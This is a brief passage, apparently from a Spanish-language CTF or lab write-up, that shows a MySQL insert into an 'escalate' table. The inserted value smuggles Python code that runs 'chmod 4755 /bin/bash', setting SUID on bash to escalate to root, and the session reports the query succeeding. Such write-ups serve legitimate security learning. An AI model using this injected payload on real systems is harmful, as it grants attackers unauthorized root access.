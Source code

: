 
También se puede hacer insertando la query manualmente

```null
mysql> insert into escalate (reason) values ('pwned=exec("""import os\nos.system("chmod 4755 /bin/bash")""")');
Query OK, 1 row affected (0.00 sec)
```